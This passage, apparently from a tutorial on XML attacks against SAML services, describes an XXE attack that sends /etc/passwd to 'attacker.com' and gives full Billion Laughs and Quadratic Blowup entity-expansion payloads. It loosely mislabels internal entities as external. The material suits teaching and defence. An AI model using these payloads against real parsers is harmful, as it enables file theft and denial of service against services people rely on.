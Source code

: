 Finally, the attacker attacks the target system using the external entity %exfil in the XML content it creates. In this way, the contents of the /etc/passwd file of the target system can be obtained by the attacker and sent to "http://attacker.com".

**Billion Laugh Attack (Billion Times Laugh Attack /yes the name is weird/)** : an attack method that causes the service to become unusable by overloading an XML processor. In this type of attack, the attacker creates a repeating pattern in the XML content, making the processor work intensively.

For example, let's say a SAML service is being targeted. The attacker wants to perform the Billion Laugh Attack by manipulating the XML content as follows:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY a "ha">
<!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
<!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
<!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
<!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;&d;&d;">
<!ENTITY f "&e;&e;&e;&e;&e;&e;&e;&e;&e;&e;">
<!ENTITY g "&f;&f;&f;&f;&f;&f;&f;&f;&f;&f;">
<!ENTITY h "&g;&g;&g;&g;&g;&g;&g;&g;&g;&g;">
<!ENTITY i "&h;&h;&h;&h;&h;&h;&h;&h;&h;&h;">
<!ENTITY j "&i;&i;&i;&i;&i;&i;&i;&i;&i;&i;">
<!ENTITY k "&j;&j;&j;&j;&j;&j;&j;&j;&j;&j;">
<!ENTITY billionLaughs "&k;&k;&k;&k;&k;&k;&k;&k;&k;&k;">
]>
<root>
<content>&billionLaughs;</content>
</root>

```

In this XML content, the attacker identifies an external entity (a) named "ha" and uses this external entity to create a repeating pattern. Each external entity is repeated 10 times more than the previous one. As a result, an external entity named "billionLaughs" is created and within this external entity there is a repeating pattern.

When the target SAML processor starts processing this XML content, it gets processor-intensive due to the repetitive pattern in the "billionLaughs" external entity. This processor density can lead to resource exhaustion and service unusable.


**Quadratic Blowup Attack** : It can cause memory overload when XML processors try to process an excessively long chain. In this case, the XML processor is overloaded due to insufficient memory or processing time and may render the service unavailable.

An attacker creates an excessively long chain using external entities in XML content. For example, the following XML content shows an example of an attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY a "xxxxxxxxxx">
<!ENTITY b "&a;&a;">
<!ENTITY c "&b;&b;">
<!ENTITY d "&c;&c;">
<!ENTITY e "&d;&d;">
<!ENTITY f "&e;&e;">
]>
<root>&f;</root>

```
